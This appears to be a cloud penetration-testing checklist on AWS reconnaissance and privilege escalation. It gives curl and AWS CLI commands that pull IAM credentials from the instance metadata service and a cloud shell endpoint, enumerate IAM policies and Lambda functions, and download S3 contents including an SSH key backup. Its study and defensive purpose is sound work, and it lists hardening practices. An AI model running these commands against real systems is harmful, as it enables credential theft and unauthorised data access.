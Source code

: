 
# Cloud basics
### Cloud kill Chain
![Untitled](../Media/Cloud/Untitled.png)

A kill chain is useful to conceptualize and associate the steps that attackers might take in different phases of their operation.
Recon involves enumeration and foot-printing of the cloud infrastructure attack surface, as well as interacting with publicly exposed cloud services. Low hanging fruit such as S3 buckets and Azure/GCP storage buckets might yield cloud and SSH keys, passwords, confidential documents and personally identifiable information (PII). With access to keys or other credentials, we could look to infiltrate the target environment. Initial situational awareness activities will be undertaken, such as identification of other cloud resources and of the permissions and privileges associated with their current user or application.

With a foothold in the cloud infrastructure, we would then look to undertake privilege escalation activities. Privilege escalation within a specific cloud resource or the general cloud environment is useful, as it allows us to undertake additional activities, such as accessing other users’ data and cloud shell files, or capture traffic, and demonstrates the impact of our compromise. Being able to assume the role of a more privileged user also increases the likelihood of us being able to move laterally between cloud resources, accounts (AWS), projects (GCP) resource groups (Azure), or move laterally from an Azure tenant to an on-prem AD domain. In the final stage, we can demonstrate impact by the secure exfiltration of resources (assuming that this has been approved by the client).

### AWS Systems Manager (SSM) VS AWS Secrets Manager
SSM allows us to view and control our infrastructure on AWS.
SSM parameters allows for securely storing and managing sensitive information and configuration data. We can store data such as passwords, database connection strings, and license codes as parameter values. SSM and AWS Secrets Manager differ in cost and functionality. SSM is more cost-effective with free standard parameters up to 10,000 entries, while Secrets Manager charges for API calls and per secret monthly. 

Secrets Manager offers automatic password generation and rotation, which SSM lacks. 
Secrets Manager is recommended for comprehensive secret management, while SSM is a cost-friendly, basic solution.

# Checklist
## Computing Enum

> The Instance Metadata service is bound to the IP address 169.254.169.254, which is an internal link-local address that is not exposed or routable externally. We can interact with the service locally via a REST API.

This metadata can contain sensitive information such as credentials, if the administrators have attached an IAM role to the EC2 instance. As the metadata is only accessible internally, this may not appear to be particularly interesting from a security perspective. The presence of this metadata, on the other hand, makes Server-Side Request Forgery (SSRF) vulnerabilities in applications that are hosted on compute instances even more serious.

While the methods discussed in this post will work in cases where the legacy version of Instance Metadata Service (IMDSv1) is enabled, they won’t work with the more secure IMDSv2, which requires token authentication. However, IMDSv1 is still enabled by default, which means that this problem is still extremely important.
> 
- [ ]  Issue the command below to return the EC2 metadata `curl 169.254.169.254/latest/meta-data/`
- [ ]  If you reached the meta data visit the route  `/latest/meta-data/iam/info`
    
    ![Untitled](../Media/Cloud/Untitled%201.png)
    
- [ ]  `/latest/meta-data/iam/security-credentials/{USER}`in the example the user is `support`
    
    ![Untitled](../Media/Cloud/Untitled%202.png)
    
    > The `AccessKeyId` and `SecretAccessKey` are used to sign programmatic requests that we make to AWS (like username and pass). We also see a time-limited session token, provided by the AWS Security Token Service (AWS STS), that allows us to authenticate to cloud resources.
    > 
- [ ]  The command `aws configure`  allows us to save these values to an AWS credentials file, located at `~/.aws/credentials`

![Untitled](../Media/Cloud/Untitled%203.png)

- [ ]  `aws configure set aws_session_token "<token_value>"` to store session token
- [ ]  `aws sts get-caller-identity` like whoami for awscli
- [ ]  `aws iam list-attached-user-policies --user-name {USERNAME}` to list the privileges
- [ ]  Best practices:
    1. Utilize version 2 of the Instance Metadata Service (IMDSv2).
    2. If you need to assign an IAM role to an EC2 instance, ensure that this only has the minimum permissions needed to perform the required tasks (in line with the principle of least privilege).
    3. Be mindful that the presence of instance metadata can make vulnerabilities such as SSRF much more dangerous.

## User Enum

- [ ]  list policies attached to a user `aws iam list-user-policies --user-name <USERNAME>`
    
    ![Untitled](../Media/Cloud/Untitled%204.png)
    
- [ ]  Get the user policy document with details 
`aws iam list-user-policies --user-name <USERNAME>`
    
    ![Untitled](Cloud%20Pentesting%200b11d67ddeaa4b008990c9bda18d9fe3/Untitled%205.png)
    
- [ ]  Retrieving a param with SSM:`aws ssm get-parameter --name <PARAM NAME>`
- [ ]  Listing the available Lambda functions 
`aws lambda list-functions --query 'Functions[].[FunctionName, Runtime, LastModified]' --output table`
- [ ]  Invoking the function works 
`aws lambda invoke --function-name crew_administration_data output.txt`
- [ ]  use [aws-enumerator](https://github.com/shabarkin/aws-enumerator)  `aws-enumerator enum -services all`
- [ ]  listing all the policies attatched to a user
`aws iam list-attached-user-policies --user-name ext-cost-user`
- [ ]  getting a specific ploicy with ARN
`aws iam get-policy --policy-arn arn:aws:iam::427648302155:policy/ExtPolicyTest`
- [ ]  getting the policy document with its ARN 
`aws iam get-policy --policy-arn arn:aws:iam::427648302155:policy/Policy`
- [ ]  getting the policy document with its ARN and version `aws iam get-policy-version --policy-arn arn:aws:iam::427648302155:policy/Policy --version-id v4`
    
    ![Untitled](../Media/Cloud/Untitled%206.png)
    
- [ ]  listing attached policies
`aws iam list-attached-user-policies --user-name ext-cost-user` 
`aws configure set aws_session_token "<token>"`
- [ ]  Getting the Account ID with Access key
`aws sts get-access-key-info --access-key-id AKIAWHEOTHRFVXYV44WP`

## Storage and S3 Enum

- [ ]  Use `dig & dig -x` commands on the domain to see DNS info
- [ ]  Inspect the website source code for any related links for buckets like:
    
    ![Untitled](../Media/Cloud/Untitled%207.png)
    
- [ ]  install `AWS CLI`   using `sudo pip install awscli --upgrade --user`
- [ ]  check if these buckets are accessible by listing the content `aws s3 ls s3://megabank-supportstorage --recursive`
- [ ]  you can search for publicly available buckets here https://buckets.grayhatwarfare.com/
- [ ]  Perform `curl -i https://<yourS3 domain>` to see headers of the response and to know what region the bucket in
- [ ]  search for sensitive info and download files by `aws s3 sync s3://megabank-supportstorage/pentest_report/`
- [ ]  Checking the bucket policy `aws s3api get-bucket-policy --bucket hl-it-admin`
    
    ![Untitled](../Media/Cloud/Untitled%208.png)
    
- [ ]  Transferring files frim the S3 to ur PC `aws s3 cp s3://hl-it-admin/ssh_keys/ssh_keys_backup.zip .`
- [ ]  Best Practice:
    1. Don’t enable public access for cloud storage if this is not required.
    2. Don’t store confidential information on cloud storage that might be legitimately configured for public access.
    3. Name cloud storage appropriately so that it is obvious what the storage is for.

```
## asking for aws key and secret key from the cloud shell
-----------------------------------------------------------------------------------
TOKEN=$(curl -X PUT localhost:1338/latest/api/token -H "X-aws-ec2-metadata-token-ttl-seconds: 60")
curl localhost:1338/latest/meta-data/container/security-credentials -H "X-aws-ec2-metadata-token: $TOKEN"

```


